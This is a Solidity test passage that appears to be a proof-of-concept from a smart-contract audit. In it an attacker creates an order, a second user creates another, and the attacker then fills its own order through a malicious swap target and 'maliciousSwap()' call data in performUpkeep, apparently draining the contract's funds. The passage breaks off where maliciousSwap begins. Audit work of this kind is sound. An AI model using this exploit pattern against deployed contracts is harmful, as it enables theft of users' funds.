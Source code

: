 ```solidity
        uint96 orderId = master.generateOrderId(address(this));
        currentOrderId = orderId;

        // assume contract has funds from other orders
        weth.transfer(address(bracket), 1 ether);

        // 1/ attacker creates order
        bracket.createOrder({
            swapPayload: new bytes(0),
            takeProfit: 4100 * 1e8,
            stopPrice: 0,
            amountIn: 1 ether,
            tokenIn: weth,
            tokenOut: usdc,
            recipient: address(this),
            feeBips: 0,
            takeProfitSlippage: 0,
            stopSlippage: 0,
            permit: false,
            permitPayload: new bytes(0)
        });

        // 2/ a normal user creates order
        // satisfy that `pendingOrderIds` has length > 1
        vm.prank(alice);
        bracket.createOrder({
            swapPayload: new bytes(0),
            takeProfit: 5000 * 1e8,
            stopPrice: 0,
            amountIn: 1 ether,
            tokenIn: weth,
            tokenOut: usdc,
            recipient: alice,
            feeBips: 0,
            takeProfitSlippage: 0,
            stopSlippage: 0,
            permit: false,
            permitPayload: new bytes(0)
        });

        IAutomation.MasterUpkeepData memory upkeepData = IAutomation.MasterUpkeepData({
            orderType: IAutomation.OrderType.BRACKET,
            target: address(this), // malicious swap target
            txData: abi.encodeWithSignature("maliciousSwap()"), // malicious swap data
            pendingOrderIdx: 0,
            orderId: orderId, // attacker's order
            tokenIn: weth,
            tokenOut: usdc,
            slippage: 0,
            amountIn: 1 ether,
            exchangeRate: 0
        });
        _updateETHPrice(4200);

        // 3/ fill attacker order
        bracket.performUpkeep(abi.encode(upkeepData));

        assertEq(weth.allowance(address(bracket), address(this)), 0, "should have zero allowance after execution");
    }


    function maliciousSwap() external payable {
```